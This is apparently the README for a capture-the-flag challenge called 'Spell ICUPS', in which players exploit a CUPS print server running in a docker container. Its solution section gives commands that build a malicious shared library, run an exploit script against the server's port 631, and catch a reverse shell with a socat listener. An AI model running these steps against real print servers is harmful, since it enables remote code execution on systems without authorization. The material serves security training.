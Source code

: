 # Spell ICUPS

```
I turned on a small CUPS server we found in the back for saving PDFs that we make locally. Didn't have SSH or anything, though, but thankfully it had socat.
```

## Documentation

Existing exploit, non-existent payload. Competitors have to make their own exploitative shared object library. Fun!

### Setup

1. docker build . -t spell-icups
2. docker run --rm -it spell-icups

## Solution

```
gcc exploit.c -o exploit.so -fPIC -shared -ldl
python exploit.py -a 172.30.0.2 -b 631 -c exploit.so
python exploit.py -a 172.30.0.2 -b 631 -f >/dev/null & socat file:`tty`,raw,echo=0 tcp-listen:4444
```
